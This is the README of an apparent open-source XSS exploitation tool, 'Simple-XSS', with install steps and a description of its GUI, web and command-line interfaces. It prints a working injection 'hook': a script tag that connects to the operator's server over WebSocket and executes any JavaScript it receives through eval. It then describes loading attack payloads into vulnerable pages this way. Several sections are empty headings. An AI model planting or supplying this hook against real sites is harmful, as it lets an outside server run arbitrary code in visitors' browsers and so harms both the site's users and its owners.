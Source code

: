 # Simple-XSS

Simple-XSS is a multiplatform XSS vulnerability exploiter.

## Algorithm

## Usage

### Hook

> _Hooks folder: [hooks](hooks)_


**Hook** is an HTML code that can be embedded in a vulnerable XSS form. It looks like:

```html

<script>c = new WebSocket('{{environment.public_url}}');c.onmessage = (e) => eval(e.data);</script>
```

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is a JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

### Internal Objects

#### Environment

#### Metadata

Firstly you need to choose hook:

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

![GUI](docs/GUI.png)

### WEB

![WEB](docs/WEB.png)

### Command Line

![CLI](docs/CLI.png)

## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

### Linux

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
